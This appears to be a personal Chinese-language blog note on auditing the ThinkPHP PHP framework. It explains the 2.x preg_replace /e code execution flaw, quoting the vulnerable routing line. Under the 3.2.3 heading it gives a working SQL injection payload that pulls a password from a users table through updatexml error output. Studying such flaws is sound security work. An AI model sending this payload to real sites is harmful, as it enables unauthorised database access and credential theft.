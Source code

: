 ```yaml
---
title: thinkphp框架
id: thinkphp框架
---
```


<!-- more -->

太久没学习了。。就打算学习一下thinkphp这个框架，简单跟着人家审计一下







# ThinkPHP 2.x 任意代码执行漏洞



- php版本<=5.6.29

- 成因是preg_replace()使用了修饰符/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

  ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
  
  ```php
  #./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102: 
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  ```
  

具体分析：

[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)

[preg_replace的/e修饰符妙用与慎用 - WiFeng的博客 (521-wf.com)](https://521-wf.com/archives/45.html)

[PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md)



俺的理解：

1、preg_replace — 执行正则表达式的搜索和替换

> ```php
>mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit ] )
> # 在 subject 中搜索 pattern 模式的匹配项并替换为 replacement 。
> # 如果指定了 limit ，则仅替换 limit 个匹配，如果省略 limit 或者其值为 -1，则所有的匹配项都会被替换。
> ```
> 
> 而/e修正符会让preg_replace()将replacement参数当作php代码执行
>(当然要确保replacement构成合法的php代码字符串，否则会PHP会报告在包含 preg_replace() 的行中出现语法解析错误)

2、表达式反向引用





# Thinkphp3

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

> thinkphp3版本路由格式:
>
> ```
> http://serverName/index.php/模块/控制器/方法/参数
> ```

[ThinkPHP3.2.3SQL注入分析 - Pan3a - 博客园 (cnblogs.com)](https://www.cnblogs.com/Pan3a/p/14873308.html)

## Thinkphp3.2.3 SQL注入

### where

payload:

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```













